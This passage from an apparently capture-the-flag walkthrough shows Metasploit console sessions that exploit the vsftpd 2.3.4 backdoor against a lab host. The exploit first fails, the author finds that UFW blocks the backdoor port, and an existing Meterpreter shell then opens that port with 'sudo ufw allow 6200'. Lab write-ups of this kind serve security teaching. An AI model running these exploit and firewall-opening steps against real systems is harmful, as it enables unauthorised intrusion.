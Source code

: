 ***

### Exploitation Path: VSFTPD

Let's try the easiest route, a metasploit module. 

```console

[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >> use exploit/unix/ftp/vsftpd_234_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact
run
[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >> use exploit/unix/ftp/vsftpd_234_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:2) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Well, that didn't work... why? 

Let's find out! 

If we examine the exploit code, we see the backdoor is created on port 6200[^footnote]. Okay, fine, so what's the problem? I discovered the machine has UFW enabled, which ends up blocking the port. Hence why the exploit fails... unless, of course, we punch a hole in the firewall, opening up port 6200. Though remember, this is just one solution to the problem. 

```console
(Meterpreter 2)(/) > shell
Process 6063 created.
Channel 1 created.
ufw status 
Firewall loaded

To                         Action  From
--                         ------  ----
22:tcp                     ALLOW   Anywhere
22:udp                     ALLOW   Anywhere
21:tcp                     ALLOW   Anywhere
3632:tcp                   ALLOW   Anywhere
3632:udp                   ALLOW   Anywhere
139:tcp                    ALLOW   Anywhere
139:udp                    ALLOW   Anywhere
445:tcp                    ALLOW   Anywhere
445:udp                    ALLOW   Anywhere
sudo ufw allow 6200 
Rule added
sudo ufw status
Firewall loaded

To                         Action  From
--                         ------  ----
22:tcp                     ALLOW   Anywhere
22:udp                     ALLOW   Anywhere
21:tcp                     ALLOW   Anywhere
3632:tcp                   ALLOW   Anywhere
3632:udp                   ALLOW   Anywhere
139:tcp                    ALLOW   Anywhere
139:udp                    ALLOW   Anywhere
445:tcp                    ALLOW   Anywhere
445:udp                    ALLOW   Anywhere
6200:tcp                   ALLOW   Anywhere
```

[^footnote]: https://www.exploit-db.com/exploits/17491